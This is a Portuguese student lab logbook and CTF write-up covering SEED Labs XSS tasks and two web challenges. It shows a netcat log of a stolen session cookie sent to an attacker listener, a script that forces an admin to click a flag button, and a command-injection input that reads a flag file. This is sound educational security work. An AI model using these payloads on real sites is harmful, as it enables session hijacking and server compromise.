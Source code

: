 # SEED Labs - Cross-Site Scripting (XSS) Attack Lab

## Preparation: Getting Familiar with the "HTTP Header Live" tool

Utilizou-se a ferramenta `"HTTP Header Live"` para capturar e analisar pedidos HTTP, em particular, o pedido que é feito quando um utilizador (neste caso Alice) clica no botão `Add friend` no perfil de `Samy`, ou seja, quando se adiciona `Samy` à lista de amigos. O pedido HTTP capturado encontra-se abaixo. Este será útil na `task 4`.

![](./screenshots/logbook10_task0.png) 

```
http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1670606154&__elgg_token=FFMYbLmKbNuV0PqhQnzMgQ&__elgg_ts=1670606154&__elgg_token=FFMYbLmKbNuV0PqhQnzMgQ
Host: www.seed-server.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: keep-alive
Referer: http://www.seed-server.com/profile/samy
Cookie: Elgg=6ci56crsicjs6buh3fjo2pf68o
```

## Task 1: Posting a Malicious Message to Display an Alert Window

![](./screenshots/logbook10_task1_1.png)  
![](./screenshots/logbook10_task1_2.png) 

## Task 2: Posting a Malicious Message to Display Cookies

![](./screenshots/logbook10_task2_1.png) 
![](./screenshots/logbook10_task2_2.png) 

## Task 3: Stealing Cookies from the Victim’s Machine

![](./screenshots/logbook10_task3.png) 

```sh
[12/09/22]seed@VM:~/.../Labsetup$ nc -lknv 5555
Listening on 0.0.0.0 5555
Connection received on 10.0.2.7 56350
GET /?c=Elgg%3Dlutf37jd6iap3futo623ouohpe HTTP/1.1
Host: 10.9.0.1:5555
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://www.seed-server.com/profile/samy
```

## Task 4: Becoming the Victim’s Friend


# CTF - Semanas 10 e 11

## Desafio 1

Ao entrar na página web, deparamo-nos com um form simples onde podemos inserir texto, que depois pode ser visto pelo administrador.

![img](screenshots/apply_flag1.PNG)  

![img](screenshots/apply_flag2.PNG)

Se o input do form não for *sanitized*, então esta página fica vulnerável a um ataque XSS, uma vez que é possível colocar uma tag `<script>` no código html da página.

O objetivo é fazer o administrador clicar no botão "Give the flag", uma vez que o utilizador não autenticado não tem permissões para o fazer (mesmo que não esteja `disabled`)

```html
<form method="POST" action="" role="form">
    <div class="submit">     
        <input type="submit" id="giveflag" value="Give the flag" disabled="">      
    </div>
</form>
```

Então, vamos utilizar um script que realize essa ação ao carregar a página, de modo a que seja feito do lado do administrador.

```html
<script> window.onload = function(){document.getElementById('giveflag').click();} </script>
```

![img](screenshots/apply_flag3.PNG)  

![img](screenshots/apply_flag4.PNG)


## Desafio 2

Ao explorar o site, encontramos algumas funcionalidades disponíveis a um utilizador não autenticado, que podemos tentar explorar. Nomeadamente existe funcionalidade que nos permite testar a nossa ligação a um ip específico.

![img](screenshots/ping1.PNG) 

Pela forma como é feito, percebemos que é usado o comando linux `ping`, ou seja, existe uma shell de linux a correr no servidor, à qual temos acesso. Sabendo pelo eunuciado que a flag se encontra em `/flags/flag.txt` vamos usar a shell para imprimir o conteúdo deste ficheiro, usando como input `0.0.0.0 | cat /flags/flag.txt`.

![img](screenshots/ping2.PNG) 


